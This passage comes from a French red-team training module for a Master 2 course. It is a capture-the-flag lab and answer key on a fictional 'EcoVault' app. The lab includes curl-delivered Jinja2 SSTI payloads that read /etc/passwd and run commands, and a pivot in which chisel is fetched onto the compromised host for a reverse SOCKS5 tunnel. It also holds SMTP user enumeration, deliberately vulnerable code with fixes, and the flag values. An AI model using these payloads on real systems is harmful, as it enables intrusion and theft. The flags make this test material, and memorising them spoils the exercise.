# CORRECTION : utiliser un template fixe et passer les variables
return render_template("preview.html", content=template)
```

#### 4.4.6 Payloads alternatifs

```bash
# Lire un fichier directement
curl -s -b "token=$TOKEN" -d "template={{ cycler.__init__.__globals__.open('/etc/passwd').read() }}" http://ecovault.local/admin/templates

# Lister un répertoire
curl -s -b "token=$TOKEN" -d "template={{ cycler.__init__.__globals__.os.listdir('/app') }}" http://ecovault.local/admin/templates

# Avec lipsum (alternative à cycler)
curl -s -b "token=$TOKEN" -d "template={{ lipsum.__globals__['os'].popen('id').read() }}" http://ecovault.local/admin/templates

# Avec config.__class__ (troisième méthode)
curl -s -b "token=$TOKEN" -d "template={{ config.__class__.__init__.__globals__['os'].popen('id').read() }}" http://ecovault.local/admin/templates
```

---

### 4.5 Flag 5 (Bonus) — Pivoting (T1021)

#### 4.5.1 Technique

**Pivoting** : depuis le reverse shell obtenu sur le serveur web (Flag 4), on explore le réseau interne. On découvre un serveur interne (`10.0.0.10`) qui expose des services HTTP (8081) et SMTP (25). On utilise **Chisel** pour créer un tunnel SOCKS5 et accéder à ces services depuis notre machine attaquante. On récupère un message SMTP contenant le flag.

#### 4.5.2 Tag MITRE ATT&CK

| ID | Nom | Tactique |
|----|-----|----------|
| **T1021** | Remote Services | Lateral Movement (TA0008) |
| **T1046** | Network Service Discovery | Discovery (TA0007) |
| **T1572** | Protocol Tunneling | Command and Control (TA0011) |

**Description** : L'attaquant utilise le serveur compromis comme point de pivot pour se déplacer latéralement vers d'autres machines du réseau interne.

#### 4.5.3 Outils nécessaires

- Reverse shell actif (obtenu au Flag 4)
- `chisel` (outil de tunneling) — binaires pour Linux
- `proxychains` (redirection des outils via SOCKS)
- `nmap` (scan réseau)
- `netcat` / `curl`

#### 4.5.4 Marche à suivre

**Étape 1 — Reconnaissance réseau depuis le shell**

Depuis le reverse shell :

```bash
# Voir notre IP
hostname -I

# Scan du réseau local
for i in $(seq 1 254); do
    (ping -c 1 -W 1 10.0.0.$i | grep "bytes from" &)
done
```

**Résultat :**

```
10.0.0.1    → machine attaquante (ou passerelle)
10.0.0.5    → serveur web actuel (EC2)
10.0.0.10   → serveur interne (cible)
```

Ou avec `nmap` si disponible :

```bash
# Vérifier si nmap est installé
which nmap || apt-get install -y nmap 2>/dev/null

# Scan des services sur 10.0.0.10
nmap -sV -p- 10.0.0.10 --min-rate=1000
```

**Résultat :**

```
10.0.0.10
  PORT     STATE  SERVICE
  25/tcp   open   smtp
  8081/tcp open   http-proxy
```

**Étape 2 — Transférer Chisel sur le serveur compromis**

**Terminal 1 (machine attaquante) :** servir le binaire chisel via HTTP

```bash
# Vérifier l'architecture du serveur cible (depuis le reverse shell)
uname -m
# Résultat probable : x86_64

# Sur la machine attaquante, lancer un serveur HTTP pour servir le binaire
python3 -m http.server 9999
```

**Terminal 2 (reverse shell) :** télécharger chisel

```bash
# Télécharger chisel depuis notre serveur HTTP
wget http://10.0.0.1:9999/chisel -O /tmp/chisel
# OU avec curl
curl -o /tmp/chisel http://10.0.0.1:9999/chisel

# Rendre exécutable
chmod +x /tmp/chisel
```

**Étape 3 — Configurer le tunnel SOCKS5**

**Terminal 1 (machine attaquante) :** lancer le serveur Chisel

```bash
./chisel server --port 8080 --reverse --socks5
```

**Explication :**
- `--port 8080` : Chisel écoute sur le port 8080
- `--reverse` : mode reverse (le client se connecte au serveur)
- `--socks5` : active le proxy SOCKS5

**Terminal 2 (reverse shell) :** lancer le client Chisel

```bash
/tmp/chisel client 10.0.0.1:8080 R:socks
```

**Explication :**
- `client` : mode client
- `10.0.0.1:8080` : adresse du serveur Chisel
- `R:socks` : tunnel reverse SOCKS5

**Étape 4 — Configurer proxychains**

Sur la machine attaquante, éditer `/etc/proxychains4.conf` :

```bash
# Dans /etc/proxychains4.conf, ajouter à la fin :
socks5 127.0.0.1 1080
```

**Étape 5 — Scanner le serveur interne via le tunnel**

```bash
# nmap à travers le tunnel SOCKS
proxychains nmap -sT -sV -p 8081,25 10.0.0.10

# Résultat attendu :
# 25/tcp   open  smtp     ?
# 8081/tcp open  http     ?
```

**Étape 6 — Accéder au serveur HTTP interne**

```bash
# Utiliser curl via proxychains
proxychains curl http://10.0.0.10:8081/
```

**Réponse :** page d'accueil du serveur interne EcoVault.

```bash
# Chercher des endpoints intéressants
proxychains curl http://10.0.0.10:8081/flag.txt

# → Flag 5 directement si le fichier est accessible
```

**Étape 7 — Interroger le serveur SMTP**

```bash
# Connexion SMTP via netcat à travers proxychains
proxychains nc -v 10.0.0.10 25
```

**Interaction SMTP :**

```smtp
EHLO attacker
MAIL FROM:<attacker@test.com>
RCPT TO:<admin@ecovault.com>
DATA
Subject: Test
.
QUIT
```

Pour récupérer les messages stockés, on peut essayer de s'authentifier ou d'exploiter une vulnérabilité SMTP :

```bash
# VRFY (énumération des utilisateurs)
proxychains nc -v 10.0.0.10 25 << EOF
EHLO attacker
VRFY admin
VRFY root
VRFY user
QUIT
EOF
```

**Étape 8 — Récupérer le flag (Flag 5)**

Le flag peut être stocké dans un message SMTP ou accessible via l'interface HTTP interne :

```bash
# Via HTTP
proxychains curl http://10.0.0.10:8081/messages
# ou
proxychains curl http://10.0.0.10:8081/emails
# ou
proxychains curl http://10.0.0.10:8081/api/messages
```

**Réponse attendue (Flag 5) :**

```json
{
    "messages": [
        {
            "from": "admin@ecovault.com",
            "to": "support@ecovault.com",
            "subject": "Flag de validation",
            "body": "Le flag est: flag{pivoting_internal_smtp_a1b2c3}"
        }
    ]
}
```

**Flag obtenu :** `flag{pivoting_internal_smtp_a1b2c3}`

#### 4.5.5 Pourquoi ça marche

Le **pivoting** est une étape clé du Red Teaming qui simule un attaquant réel. Une fois le premier serveur compromis (le serveur web frontal), l'attaquant utilise cet accès comme **tremplin** (pivot) pour atteindre des machines qui ne sont pas directement accessibles depuis l'extérieur.

**Chisel** crée un tunnel **SOCKS5** inversé : le serveur compromis se connecte à notre machine attaquante via un canal chiffré, et nous pouvons router notre trafic à travers ce tunnel pour atteindre le réseau interne `10.0.0.0/24`.

**Architecture :**



**Proxychains** permet de faire passer les outils (curl, nmap, nc) à travers le tunnel SOCKS5 sans modification.

---

## 5. Template de documentation ATT&CK

### 5.1 Tableau de synthèse des vulnérabilités

| # | Flag | Technique | ATT&CK ID | Tactique | Endpoint | Payload | Impact | Remédiation |
|:-:|------|-----------|-----------|----------|----------|---------|:------:|-------------|
| 1 | `flag{idor_admin_key_7e9f2b}` | IDOR | **T1548** | Privilege Escalation | `GET /api/profile/{id}` | `id=1` | Critique | Vérifier l'appartenance de la ressource |
| 2 | `flag{sqli_extract_users_b4d92f}` | SQL Injection | **T1190** | Initial Access | `GET /api/transactions?filter=` | `' UNION SELECT ...` | Critique | Requêtes paramétrées |
| 3 | `flag{jwt_admin_forge_c3a8e1}` | JWT Auth Bypass | **T1078** | Defense Evasion | JWT header/payload | `alg: none` / confusion / kid | Critique | Refuser alg:none, séparer clés HMAC/RSA |
| 4 | `flag{ssti_rce_shell_f7c3d9}` | SSTI → RCE | **T1190** → **T1059.003** | Execution | `POST /admin/templates` | `{{ cycler.__init__.__globals__.os.popen() }}` | Critique | Ne pas faire confiance aux entrées template |
| 5 | `flag{pivoting_internal_smtp_a1b2c3}` | Pivoting | **T1021** | Lateral Movement | Réseau interne 10.0.0.10 | Chisel tunnel SOCKS5 | Élevé | Segmenter le réseau, firewall interne |

### 5.2 Matrice de couverture ATT&CK (Heat Map textuelle)



### 5.3 Rapport de conformité NIS2

**Entité :** EcoVault SAS  
**Date du test :** 30/05/2026  
**Référentiel :** NIS2 Article 21 — Gestion des risques

| Exigence NIS2 | Couverture ATT&CK | Constat | Conforme |
|---------------|-------------------|---------|:--------:|
| Contrôle d'accès (Art. 21-2c) | T1548 (IDOR) | Aucune vérification d'appartenance | ❌ Non |
| Sécurité applicative (Art. 21-2d) | T1190 (SQLi, SSTI) | Injections multiples | ❌ Non |
| Gestion des identités (Art. 21-2d) | T1078 (JWT) | Signature JWT falsifiable | ❌ Non |
| Segmentation réseau (Art. 21-2g) | T1021 (Pivoting) | Pas de firewall interne | ❌ Non |
| Détection des incidents (Art. 21-2e) | T1046, T1572 | Aucune détection des scans/tunnels | ❌ Non |

### 5.4 Génération de la heat map JSON (ATT&CK Navigator)

```json
{
    "name": "M5 — Scénario Autonome EcoVault",
    "version": "4.1",
    "domain": "mitre-enterprise",
    "description": "Heat map de l'engagement Red Team sur EcoVault — 30/05/2026",
    "techniques": [
        {
            "techniqueID": "T1548",
            "color": "#d62728",
            "score": 100,
            "comment": "IDOR — Flag 1 : Profil admin accessible sans autorisation"
        },
        {
            "techniqueID": "T1190",
            "color": "#d62728",
            "score": 100,
            "comment": "SQLi — Flag 2 : Extraction table users"
        },
        {
            "techniqueID": "T1078",
            "color": "#d62728",
            "score": 100,
            "comment": "JWT Forge — Flag 3 : Token admin forgé"
        },
        {
            "techniqueID": "T1059",
            "sub-techniques": [
                {
                    "techniqueID": "T1059.003",
                    "color": "#d62728",
                    "score": 100,
                    "comment": "SSTI → RCE — Flag 4 : Reverse shell via cycler.__init__.__globals__"
                }
            ],
            "color": "#d62728",
            "score": 100,
            "comment": "RCE via SSTI"
        },
        {
            "techniqueID": "T1021",
            "color": "#f5b042",
            "score": 90,
            "comment": "Pivoting — Flag 5 : Tunnel Chisel vers serveur interne 10.0.0.10"
        },
        {
            "techniqueID": "T1046",
            "color": "#f5b042",
            "score": 80,
            "comment": "Scan réseau interne depuis reverse shell"
        },
        {
            "techniqueID": "T1572",
            "color": "#f5b042",
            "score": 80,
            "comment": "Chisel SOCKS5 tunnel — Protocol Tunneling"
        }
    ],
    "gradient": {
        "colors": ["#98df8a", "#f5b042", "#d62728"],
        "minValue": 0,
        "maxValue": 100
    },
    "legendItems": [
        {"label": "Non testé", "color": "#ececec"},
        {"label": "Partiellement couvert", "color": "#f5b042"},
        {"label": "Exploité avec succès", "color": "#d62728"}
    ],
    "filters": {
        "stages": ["act"],
        "platforms": ["linux"]
    }
}
```

### 5.5 Fiche de notation

| Critère | Barème | Points |
|---------|:------:|:------:|
| Flag 1 — IDOR | 20 pts | ___ / 20 |
| Flag 2 — SQLi | 25 pts | ___ / 25 |
| Flag 3 — JWT Bypass | 25 pts | ___ / 25 |
| Flag 4 — SSTI → RCE | 30 pts | ___ / 30 |
| Flag 5 — Pivoting (bonus) | 20 pts | ___ / 20 |
| Documentation ATT&CK | 10 pts | ___ / 10 |
| **Total** | **130 pts** | **___ / 130** |

**Seuil de réussite :** 60/130 (≈ 46 %)

---

## 6. Annexes : Corrections et explications

### 6.1 Flag 1 — IDOR (T1548)

#### Pourquoi la vulnérabilité existe

```python
# Code vulnérable — app.py:142
@app.route('/api/profile/<int:user_id>')
@jwt_required
def api_profile(user_id):
    current_user_id = get_jwt_identity()  # ← ne JAMAIS utilisé
    # ⚠️ Aucune comparaison entre user_id et current_user_id
    user = query_db(f"SELECT * FROM users WHERE id = {user_id}", one=True)
    return jsonify(user)
```

**Cause racine :** L'extraction de l'identité JWT est présente (`get_jwt_identity()`) mais jamais utilisée. Le code récupère l'ID depuis l'URL (`user_id`) et exécute la requête sans vérifier que `user_id == current_user_id`.

**Risque :** Tout utilisateur connecté peut lire le profil de n'importe quel autre utilisateur (y compris l'admin) en modifiant simplement l'ID numérique dans l'URL.

#### Comment corriger

```python
@app.route('/api/profile/<int:user_id>')
@jwt_required
def api_profile(user_id):
    current_user_id = get_jwt_identity()

    # ✅ Vérification d'appartenance
    if user_id != current_user_id:
        # Vérifier si l'utilisateur est admin (exception pour les admins)
        current_user = query_db("SELECT role FROM users WHERE id = ?", (current_user_id,), one=True)
        if not current_user or current_user['role'] != 'admin':
            return jsonify({'error': 'Accès non autorisé'}), 403

    # ✅ Requête paramétrée (sécurise aussi contre la SQLi)
    user = query_db("SELECT id, email, role, created_at FROM users WHERE id = ?", (user_id,), one=True)
    if not user:
        return jsonify({'error': 'Utilisateur non trouvé'}), 404

    # Ne jamais exposer api_key sauf pour l'utilisateur lui-même
    if user['id'] == current_user_id or (current_user and current_user['role'] == 'admin'):
        user = query_db("SELECT id, email, role, api_key, created_at FROM users WHERE id = ?", (user_id,), one=True)

    return jsonify(user)
```

#### Références

- **OWASP** : [Insecure Direct Object References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
- **PortSwigger** : [IDOR](https://portswigger.net/web-security/access-control/idor)
- **MITRE ATT&CK** : [T1548](https://attack.mitre.org/techniques/T1548/)
- **CWE** : [CWE-639](https://cwe.mitre.org/data/definitions/639.html) — Authorization Bypass Through User-Controlled Key

---

### 6.2 Flag 2 — SQLi (T1190)

#### Pourquoi la vulnérabilité existe

```python
# Code vulnérable — app.py:85
@app.route('/api/transactions')
@jwt_required
def api_transactions():
    filter_val = request.args.get('filter', '')
    # ⚠️ Concaténation directe dans une f-string SQL
    query = f"SELECT id, transaction_ref, montant, devise FROM transactions WHERE id = '{filter_val}'"
    results = query_db(query)
    return jsonify(results)
```

**Cause racine :** La chaîne SQL est construite par concaténation avec une **f-string Python** (`f"..."`). La valeur du paramètre `filter` est insérée directement sans aucune échappement ni paramétrisation.

**Risque :** L'attaquant peut injecter des clauses SQL arbitraires et extraire toutes les données de la base (tables `users`, `transactions`, `coupons`).

#### Comment corriger

```python
@app.route('/api/transactions')
@jwt_required
def api_transactions():
    filter_val = request.args.get('filter', '')

    # ✅ Requête paramétrée avec placeholder (?)
    query = "SELECT id, transaction_ref, montant, devise FROM transactions WHERE id = ?"
    results = query_db(query, (filter_val,))

    return jsonify(results)
```

**Explication :** Avec les requêtes paramétrées, la valeur `filter_val` est transmise **séparément** du plan de requête. Le SGBD la traite comme une donnée, pas comme du code SQL. Même si la valeur contient `' OR 1=1 --`, elle sera échappée automatiquement.

#### Remédiation avancée

```python
# Solution 1 : ORM (SQLAlchemy)
from flask_sqlalchemy import SQLAlchemy
db = SQLAlchemy()

class Transaction(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    transaction_ref = db.Column(db.String(255))
    montant = db.Column(db.Float)
    devise = db.Column(db.String(10))

@app.route('/api/transactions')
@jwt_required
def api_transactions():
    filter_val = request.args.get('filter', '')
    transaction = Transaction.query.filter_by(id=filter_val).first()
    return jsonify(transaction.to_dict() if transaction else [])

# Solution 2 : Validation stricte du type
@app.route('/api/transactions')
@jwt_required
def api_transactions():
    try:
        filter_val = int(request.args.get('filter', 0))
    except ValueError:
        return jsonify({'error': 'ID invalide'}), 400
    # Requête paramétrée
    query = "SELECT * FROM transactions WHERE id = ?"
    results = query_db(query, (filter_val,))
    return jsonify(results)
```

#### Références

- **OWASP** : [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- **PortSwigger** : [SQL Injection](https://portswigger.net/web-security/sql-injection)
- **MITRE ATT&CK** : [T1190](https://attack.mitre.org/techniques/T1190/)
- **CWE** : [CWE-89](https://cwe.mitre.org/data/definitions/89.html) — SQL Injection
- **sqlmap** : [https://sqlmap.org](https://sqlmap.org)

---

### 6.3 Flag 3 — Auth Bypass JWT (T1078)

#### Pourquoi la vulnérabilité existe

**Cause racine multiple :**

**1. None Algorithm (T1134.003) :**

```python
# Code vulnérable — app.py:252
header = jwt.get_unverified_header(token)
if header.get('alg') == 'none':
    # ⚠️ NE JAMAIS FAIRE CELA
    return jwt.decode(token, options={"verify_signature": False})
```

**2. HMAC/RSA Confusion (T1134.003) :**

```python
# Code vulnérable — app.py:271
RSA_PUBLIC_KEY = open("public.pem").read()

def verify_jwt(token):
    header = jwt.get_unverified_header(token)
    if header.get('alg') == 'RS256':
        try:
            return jwt.decode(token, RSA_PUBLIC_KEY, algorithms=['RS256'])
        except:
            # ⚠️ Fallback dangereux : accepte HS256 avec la clé PUBLIQUE
            try:
                return jwt.decode(token, RSA_PUBLIC_KEY, algorithms=['HS256'])
            except:
                pass
```

**3. Kid Injection (T1134.003) :**

```python
# Code vulnérable — app.py:258
kid = header.get('kid', '')
if '../' in kid or '/dev/' in kid:
    if 'null' in kid:
        # ⚠️ Utilise une chaîne vide comme clé secrète
        return jwt.decode(token, '', algorithms=['HS256'])
```

#### Solutions de correction

```python
# Solution complète — verification_jwt.py

import jwt
from jwt import PyJWTError

# Clés séparées pour HMAC et RSA
HMAC_SECRET = os.environ.get('JWT_HMAC_SECRET', 'une-chaîne-aléatoire-très-longue-128-caractères-minimum')
RSA_PRIVATE_KEY = open("/etc/ssl/jwt_private.pem").read()
RSA_PUBLIC_KEY = open("/etc/ssl/jwt_public.pem").read()

# Liste blanche des algorithmes acceptés
ALLOWED_ALGORITHMS = ['RS256']  # Un seul algorithme autorisé !

# Liste blanche des kid valides
ALLOWED_KIDS = ['key1', 'key2', 'key3']

def verify_jwt_secure(token):
    """Vérification sécurisée d'un JWT."""
    try:
        # 1. Récupérer le header SANS faire confiance
        header = jwt.get_unverified_header(token)
        alg = header.get('alg', '')

        # 2. Refuser 'none' explicitement
        if alg == 'none':
            raise jwt.InvalidAlgorithmError("Algorithme 'none' refusé")

        # 3. Vérifier que l'algorithme est dans la liste blanche
        if alg not in ALLOWED_ALGORITHMS:
            raise jwt.InvalidAlgorithmError(f"Algorithme {alg} non autorisé")

        # 4. Vérifier le kid (si présent)
        kid = header.get('kid', '')
        if kid and kid not in ALLOWED_KIDS:
            raise jwt.InvalidTokenError(f"kid {kid} non reconnu")

        # 5. Vérifier la signature avec la clé appropriée
        if alg == 'RS256':
            return jwt.decode(token, RSA_PUBLIC_KEY, algorithms=['RS256'])

    except PyJWTError as e:
        raise jwt.InvalidTokenError(f"Token invalide : {e}")

    return None
```

#### Références

- **JWT.io** : [https://jwt.io](https://jwt.io)
- **PortSwigger** : [JWT attacks](https://portswigger.net/web-security/jwt)
- **MITRE ATT&CK** : [T1078](https://attack.mitre.org/techniques/T1078/)
- **CWE** : [CWE-347](https://cwe.mitre.org/data/definitions/347.html) — Improper Verification of Cryptographic Signature
- **jwt_tool** : [https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

---

### 6.4 Flag 4 — SSTI → RCE (T1190 → T1059.003)

#### Pourquoi la vulnérabilité existe

```python
# Code vulnérable — app.py:312
from flask import render_template_string

@app.route('/admin/templates', methods=['POST'])
@jwt_required
@admin_required
def admin_templates():
    template = request.form.get('template', '')

    # ⚠️ render_template_string interprète le contenu comme un template Jinja2
    # Ceci permet l'exécution de code Python arbitraire via __globals__
    rendered = render_template_string(template)
    return rendered
```

**Cause racine :** `render_template_string()` prend une chaîne et l'interprète comme un template Jinja2 complet. Si l'utilisateur contrôle cette chaîne, il peut injecter des expressions `{{ }}` qui accèdent aux objets Python internes (`__class__`, `__mro__`, `__subclasses__`, `__globals__`).

**Chaîne d'exploitation :**



#### Comment corriger

```python
# Solution 1 : NE PAS utiliser render_template_string avec une entrée utilisateur
@app.route('/admin/templates', methods=['POST'])
@jwt_required
@admin_required
def admin_templates():
    template_name = request.form.get('template', 'default.html')
    data = request.form.get('data', '')

    # ✅ Utiliser un template fixe et passer les données comme variables
    return render_template(
        f"admin/{template_name}.html",  # Attention : valider template_name !
        user_data=data
    )
```

```python
# Solution 2 : Sandbox Jinja2
from jinja2.sandbox import SandboxedEnvironment

env = SandboxedEnvironment()
# Les objets dangereux (__class__, __globals__, etc.) sont bloqués

template = env.from_string(user_input)
result = template.render()
```

```python
# Solution 3 : Validation stricte avec liste blanche
import re

ALLOWED_PATTERN = re.compile(r'^[\w\s\.\,\;\:\!\?\%\€\-\(\)\[\]]+$')

@app.route('/admin/templates', methods=['POST'])
@jwt_required
@admin_required
def admin_templates():
    template = request.form.get('template', '')

    # ✅ Rejeter tout ce qui ressemble à une expression Jinja2
    if '{{' in template or '{%' in template:
        return jsonify({'error': 'Syntaxe template non autorisée'}), 400

    # ✅ Validation stricte du contenu
    if not ALLOWED_PATTERN.match(template):
        return jsonify({'error': 'Caractères non autorisés'}), 400

    # Traitement sécurisé...
    return render_template("preview.html", content=template)
```

#### Références

- **OWASP** : [Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
- **PortSwigger** : [SSTI](https://portswigger.net/web-security/server-side-template-injection)
- **PayloadsAllTheThings** : [Jinja2 SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
- **MITRE ATT&CK** : [T1059.003](https://attack.mitre.org/techniques/T1059/003/)
- **CWE** : [CWE-94](https://cwe.mitre.org/data/definitions/94.html) — Improper Control of Generation of Code (Code Injection)

---

### 6.5 Flag 5 — Pivoting (T1021)

#### Pourquoi la vulnérabilité existe

**Causes racines :**

1. **Absence de segmentation réseau :** Le serveur web (`10.0.0.5`) peut communiquer librement avec le serveur interne (`10.0.0.10`) sans restriction.
2. **Services internes exposés :** Les ports 8081 (HTTP) et 25 (SMTP) sont accessibles depuis n'importe quelle machine du réseau `10.0.0.0/24`.
3. **Pas de firewall interne :** Aucune règle `iptables` ne limite le trafic entre les zones (DMZ → interne).
4. **Absence de détection :** Aucun IDS/IPS ne détecte les connexions inhabituelles (scans, tunnels).

#### Comment corriger

```bash
# Solution 1 : Firewall interne (iptables)
# Sur le serveur interne (10.0.0.10)
iptables -A INPUT -s 10.0.0.0/24 -p tcp --dport 8081 -j DROP  # Bloque tout
iptables -A INPUT -s 10.0.0.100 -p tcp --dport 8081 -j ACCEPT  # Autorise uniquement l'admin

# Solution 2 : Firewall sur le serveur web (10.0.0.5)
iptables -A OUTPUT -d 10.0.0.10 -p tcp --dport 8081 -j DROP  # Bloque les connexions sortantes
iptables -A OUTPUT -d 10.0.0.10 -p tcp --dport 25 -j DROP     # Vers SMTP interne
```

```python
# Solution 3 : Détection des tunnels (code applicatif)
import subprocess
import re

def detect_tunnels():
    """Détecte les connexions sortantes inhabituelles."""
    result = subprocess.run(['ss', '-tpn'], capture_output=True, text=True)
    connections = result.stdout

    # Détecter Chisel (SOCKS5)
    if 'socks5' in connections.lower() or '1080' in connections:
        alert("Tunnel SOCKS5 détecté !")

    # Détecter les connexions sortantes vers IP non autorisées
    for match in re.finditer(r'10\.0\.0\.\d+:\d+', connections):
        ip_port = match.group()
        if not is_authorized(ip_port):
            alert(f"Connexion non autorisée : {ip_port}")
```

#### Références

- **Chisel** : [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
- **MITRE ATT&CK** : [T1021](https://attack.mitre.org/techniques/T1021/)
- **MITRE ATT&CK** : [T1572](https://attack.mitre.org/techniques/T1572/)
- **CWE** : [CWE-200](https://cwe.mitre.org/data/definitions/200.html) — Exposure of Sensitive Information to an Unauthorized Actor

---

### 6.6 Diagramme de l'attaque complète



### 6.7 Tableau récapitulatif des flags

| Flag | Valeur | Points | Temps estimé | Difficulté |
|:----:|--------|:------:|:------------:|:----------:|
| 1 | `flag{idor_admin_key_7e9f2b}` | 20 | 5 min | ⭐ |
| 2 | `flag{sqli_extract_users_b4d92f}` | 25 | 10 min | ⭐⭐ |
| 3 | `flag{jwt_admin_forge_c3a8e1}` | 25 | 10 min | ⭐⭐⭐ |
| 4 | `flag{ssti_rce_shell_f7c3d9}` | 30 | 15 min | ⭐⭐⭐⭐ |
| 5 | `flag{pivoting_internal_smtp_a1b2c3}` | 20 (B) | 15 min | ⭐⭐⭐⭐⭐ |

### 6.8 Liens et ressources

| Ressource | URL |
|-----------|-----|
| MITRE ATT&CK Enterprise Matrix | [https://attack.mitre.org/matrices/enterprise/](https://attack.mitre.org/matrices/enterprise/) |
| ATT&CK Navigator | [https://github.com/mitre-attack/attack-navigator](https://github.com/mitre-attack/attack-navigator) |
| OWASP Top 10 2025 | [https://owasp.org/Top10/](https://owasp.org/Top10/) |
| PortSwigger Web Security Academy | [https://portswigger.net/web-security](https://portswigger.net/web-security) |
| PayloadsAllTheThings | [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) |
| sqlmap | [https://sqlmap.org](https://sqlmap.org) |
| jwt_tool | [https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool) |
| Chisel (tunneling) | [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel) |
| JWT.io (decodeur) | [https://jwt.io](https://jwt.io) |
| Directive NIS2 (EUR-Lex) | [https://eur-lex.europa.eu/eli/dir/2022/2555](https://eur-lex.europa.eu/eli/dir/2022/2555) |
| ANSSI — Guide d'hygiène | [https://www.ssi.gouv.fr/guide/guide-dhygiene-informatique/](https://www.ssi.gouv.fr/guide/guide-dhygiene-informatique/) |

---

*Fin du Module 5 — Scénario Autonome EcoVault*  
*Formation Red Team — Master 2 Sécurité et Défense des Systèmes d'Information — SDV 2026*  
*Document conforme au référentiel NIS2 — Article 21 — Gestion des risques*
